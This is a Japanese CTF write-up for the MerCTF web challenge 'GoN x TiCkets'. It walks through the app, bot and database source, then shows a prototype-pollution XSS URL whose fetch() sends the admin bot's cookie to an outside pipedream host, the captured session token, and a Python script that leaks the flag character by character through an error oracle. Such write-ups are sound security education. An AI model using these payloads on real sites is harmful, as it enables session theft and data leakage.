 # GoN x TiCkets:MerCTF:490pts
This is the final boss! You should try to solve it if you are a pro  
**URL:** [http://web.merctf.com](http://web.merctf.com/)  
Note: Challenge is working as intended so ganbarimasu The bot is a bit slow sometimes, sorry for that!  

[ToGive.zip](ToGive.zip)  

# Solution
URLとソースが配布される。  
アクセスすると、著作権的にやばいサイトのようだ。  
![site1.png](site/site1.png)  
ユーザ登録やログインも実装されている。  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
ログインするとチケットを提出でき、チケットを検索もできるようだ。  
![site4.png](site/site4.png)  
チケットを提出すると以下のようなページへ遷移した。  
reCAPTCHAが壊れているようだ。  
![site5.png](site/site5.png)  
さらにAdminに報告するページもある。  
![site6.png](site/site6.png)  
XSSのようだが、チケットの内容が表示されないため発火しない。  
ソースを見るとapp、bot、dbが含まれていた。  
dbのinit.sqlを見ると以下のようであった。  
```sql
~~~
--
-- Table structure for table `tickets`
--

DROP TABLE IF EXISTS `tickets`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `tickets` (
  `id` varchar(200) NOT NULL,
  `ticket` varchar(1000) NOT NULL,
  `username` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `tickets`
--

LOCK TABLES `tickets` WRITE;
/*!40000 ALTER TABLE `tickets` DISABLE KEYS */;
INSERT INTO `tickets` VALUES 
('1a4c2f59b482ebcae1da00cf3a88cebfd42a924367821ad185ff9bda5xxxxx','Merctf{FAKEFLAG}','mercari');
/*!40000 ALTER TABLE `tickets` ENABLE KEYS */;
UNLOCK TABLES;

--
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(200) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES (2,'REDACTED','REDACTED');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
~~~
```
フラグは推測できないidのticketとして含まれている。
usersにREDACTEDユーザがいることからも、おそらくAdmin Botユーザのticketのようだ。  
次にbotのbot.jsを見ると以下のようであった。  
```js
~~~
async function visit(website){
	const browser = await puppeteer.launch(browser_options);
	const page = await browser.newPage();
    	await page.goto('http://'+process.env.DOMAIN+'/login');
	await delay(50);
    // Login
    await page.type('#username', process.env.username);
    await page.type('#password', process.env.password);
    await Promise.all([
             page.click("#submit"),
             page.waitForNavigation({ timeout: 5000, waitUntil: "networkidle2" })
			]);

//    await page.waitForNavigation();

    // Get cookies
    const cookies = await page.cookies();
    // Use cookies in other tab or browser
    const page2 = await browser.newPage()
await page2.bringToFront();

    await page2.setCookie(...cookies);
    await page2.goto(website,{
        waitUntil: 'networkidle0',  
        timeout:60000
    }); // Opens page as logged user
	await delay(10000);
    	await browser.close();

}

app.get("/", (req,res)=>{
	var website=req.query.url ;
	visit(website).then((e)=>{res.send("Visited successfully!")}).catch((err)=>{res.send("Error")}) ;
})
app.listen(80,()=>{console.log("app listening")})
```
Adminとしてログインし、任意のサイトへ遷移する。  
ログイン後に任意のサイトに遷移することからもXS-Leaksなどが怪しい。  
最後にappのapp.pyを見る。  
```python
~~~
@app.route('/search',methods=["POST"])
@csrf.exempt
def search():
    if 'username' not in session:
        return redirect('/login')
    if 'query' not in request.form:
        return jsonify({"Total":len(get_tickets(session['username']))})
    query = str(request.form.get('query'))
    results = (
        ticket for ticket in get_tickets(session['username'])
        if query in ticket
    )
    try:
        res=next(results)
        agent=request.headers["User-Agent"]
        if len(agent)>10:
            res=agent[0:15]+" is allowed to execute the jutsu: "+res
        else:
            res=agent[0:15]+" is not allowed to execute the jutsu: "+res
        return render_template("view.html",ticket="Not Found")
    except StopIteration:
        return render_template("view.html",ticket="Not Found")
~~~
```
テンプレートに使用していない値が渡っており、ミスリードが過ぎる。  
UAを使用している謎の機能が目に付くが悪用法は思いつかない。  
ここでネットを調査していると、[Last Battle](https://mizu.re/post/last_battle)なるWriteUpがヒットする。  
ほぼ同じ問題なようだ(著作権がやばいのも同じ)。  
[Last_Battle.png](images/Last_Battle.png)  
詳しく読むとreCAPTCHAのガジェットを用いたXSSから、先ほどのUAを悪用してフラグをリークできるらしい。  
まずはXSSを以下のように発生させ、Admin Botのcookieを盗む(RequestBin.comを受信に使用)。  
```
http://web.merctf.com/view?id=satoki%26__proto__%5Bsrcdoc%5D%3D%5B%253Cscript%253Efetch%28%2522https%3A%2F%2Fenir5kph2h5be.x.pipedream.net%2F%253Fs%253D%2522%252Bdocument.cookie%29%253C%2Fscript%253E%5D
```
すると以下のリクエストを受信する。  
```
/?s=session=eyJjc3JmX3Rva2VuIjoiY2Y3MzBkZmUxNjQxOTU0N2Y0OTY2OTI3NjJhNWExMzkxMTg3NzMyMCIsInVzZXJuYW1lIjoibWVyY2FyaSJ9.ZYxGBw.pzl-9a35cjNX5em3B6TF2xjCfVk
```
これを用いてAdmin BotのticketをUA経由でリークする。  
以下のwriteup_solver.pyで行う。  
```python
# ref. https://mizu.re/post/last_battle

from requests import get, post
from string import printable
from re import findall

# init
cookies = {
    "session": "eyJjc3JmX3Rva2VuIjoiY2Y3MzBkZmUxNjQxOTU0N2Y0OTY2OTI3NjJhNWExMzkxMTg3NzMyMCIsInVzZXJuYW1lIjoibWVyY2FyaSJ9.ZYxGBw.pzl-9a35cjNX5em3B6TF2xjCfVk"
}
flag = "Merctf{"

while 1:
    # search query
    for letter in printable:
        url = "http://web.merctf.com//search"
        headers = {
            "Connection": "User-Agent"
        }
        data = {
            "query": flag + letter
        }

        r = post(url, cookies=cookies, headers=headers, data=data)
        if r.status_code == 500:
            print("LETTER FOUND!", flag + letter)
            flag += letter
            break
    # no letter found, end of flag
    else:
        exit()
```
実行する。  
```bash
$ python writeup_solver.py
LETTER FOUND! Merctf{T
LETTER FOUND! Merctf{TH
LETTER FOUND! Merctf{THE
LETTER FOUND! Merctf{THE_
LETTER FOUND! Merctf{THE_C
LETTER FOUND! Merctf{THE_CH
LETTER FOUND! Merctf{THE_CHA
LETTER FOUND! Merctf{THE_CHAI
LETTER FOUND! Merctf{THE_CHAIN
LETTER FOUND! Merctf{THE_CHAIN_
LETTER FOUND! Merctf{THE_CHAIN_I
LETTER FOUND! Merctf{THE_CHAIN_IS
LETTER FOUND! Merctf{THE_CHAIN_IS_
LETTER FOUND! Merctf{THE_CHAIN_IS_G
LETTER FOUND! Merctf{THE_CHAIN_IS_G0
LETTER FOUND! Merctf{THE_CHAIN_IS_G00
LETTER FOUND! Merctf{THE_CHAIN_IS_G00D
LETTER FOUND! Merctf{THE_CHAIN_IS_G00D}
```
flagが得られた。  
ソースを読むのがかなり苦痛なOSINT問題だった(泣)。  

## Merctf{THE_CHAIN_IS_G00D}